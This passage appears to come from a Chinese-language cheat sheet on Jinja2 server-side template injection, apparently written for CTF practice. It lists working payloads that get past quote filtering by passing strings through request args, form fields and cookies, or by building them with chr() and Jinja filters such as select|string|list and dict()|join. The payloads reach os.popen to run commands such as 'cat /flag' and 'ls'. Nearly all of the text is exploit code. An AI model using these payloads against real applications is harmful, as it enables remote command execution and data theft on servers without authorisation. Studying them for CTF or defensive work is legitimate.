 ### 2.5 过滤单双引号
#### request绕过
```python
# 可以通过request.args的get传参输入引号内的内容，payload：
{{().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.args.popen](request.args.cmd).read() }}
同时get传参?popen=popen&cmd=cat /flag
 
# 也可以通过request.form的post传参输入引号内的内容，payload：
{{().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.form.popen](request.form.cmd).read() }}
同时post传参?popen=popen&cmd=cat /flag
 
# 还可以使用cookies传参，如request.cookies.k1、request.cookies.k2、k1=popen;k2=cat /flag
{{().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.cookies.k1](request.cookies.k2).read() }}
同时post传参?k1=popen&k2=cat /flag

```

#### `chr()`绕过
```python
{%set chr = x.__init__.__globals__.get(__builtins__).chr%}
{{x.__init__.__globals__[chr(111)%2bchr(115)][chr(112)%2bchr(111)%2bchr(112)%2bchr(101)%2bchr(110)](chr(108)%2bchr(115)).read()}} #__globals__['os']['popen']('ls').read()
```

### 2.6 利用过滤器构造字符
#### `()|select|string|list`
通过这个过滤器组合可以获得一些字母、下划线和数字，例如：
```python
# 获取下划线
http://127.0.0.1:5000/mumu?{{(()|select|string|list)[24]}}

# 获取%
http://127.0.0.1:5000/mumu?{{(self|string|urlencode|list)[0]}}

# 获取.
http://127.0.0.1:5000/mumu?{{self|float|string|min}}

# 获取数字0
http://127.0.0.1:5000/mumu?{{(self|int)}}

# 获取数字1
http://127.0.0.1:5000/mumu?{{((self|int)**(self|int))|int}}

# 获取其他数字
```

#### `dict()|join`
```python
# 字符拼接
http://127.0.0.1:5000/mumu?{{dict(Q1ngD3ng=a,Y1=a)|join}}

# 获取数字1
http://127.0.0.1:5000/mumu?{{(dict(Q=a)|join|count)}}

# 获取数字8
http://127.0.0.1:5000/mumu?{{(dict(Q1ngD3ng=a)|join|count)}}
```
